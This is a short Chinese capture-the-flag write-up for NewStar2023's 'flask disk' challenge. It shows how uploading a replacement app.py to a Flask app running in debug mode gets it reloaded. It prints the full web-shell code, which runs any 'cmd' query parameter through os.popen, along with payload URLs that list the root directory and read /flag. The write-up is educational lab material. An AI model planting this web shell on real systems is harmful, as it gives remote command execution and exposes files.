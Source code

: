 ### NewStar2023-week4---- flask disk

---

> 题目提示：a flask disk with a vulneribility. (The application is running on port 5000)

![image-20241104211308756](https://gitee.com/bx33661/image/raw/master/path/image-20241104211308756.png)

进入页面三个页面，

- 可以看到上传的文件，发现存在`app.py`
- 上传文件页面
- console页面，需要pin码

我们从了解到信息可以知道，程序运行的端口，和flask属于debug模式，可以修改app.py，重载，

*所以说这个提示有时候就是破题点*

我们上传一个可以命令执行的app.py，重载一下

```python
from flask import Flask, request
import os

app = Flask(__name__)


@app.route('/')
def index():
    try:
        cmd = request.args.get('cmd')
        data = os.popen(cmd).read()
        return data
    except:
        pass

    return "1"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

Payload：

```(空)
http://dadd7728-72ca-4181-834e-5c35b823c8bb.node5.buuoj.cn:81/?cmd=ls /
```

![image-20241104211215855](https://gitee.com/bx33661/image/raw/master/path/image-20241104211215855.png)

```(空)
http://dadd7728-72ca-4181-834e-5c35b823c8bb.node5.buuoj.cn:81/?cmd=cat /flag
```



![image-20241104211141775](https://gitee.com/bx33661/image/raw/master/path/image-20241104211141775.png)